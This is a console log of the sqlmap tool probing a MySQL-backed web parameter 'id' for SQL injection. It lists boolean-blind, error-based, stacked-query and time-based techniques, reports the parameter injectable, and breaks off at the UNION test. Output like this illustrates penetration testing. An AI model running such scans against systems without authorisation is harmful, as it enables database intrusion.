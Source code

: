 {% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-0826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:05:38

[12:05:38] [INFO] testing connection to the target URL
[12:05:38] [INFO] testing if the target URL is stable
[12:05:39] [INFO] target URL is stable
[12:05:39] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:39] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:05:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:05:57] [INFO] GET parameter 'id' seems to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[12:05:57] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE, HAVING clause'
[12:05:57] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL inline queries'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[12:05:57] [WARNING] time-based comparison requires larger statistical model, please wait....                                                                                         
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT)'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[12:05:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[12:05:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[12:05:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[12:06:08] [INFO] GET parameter 'id' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable
[12:06:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'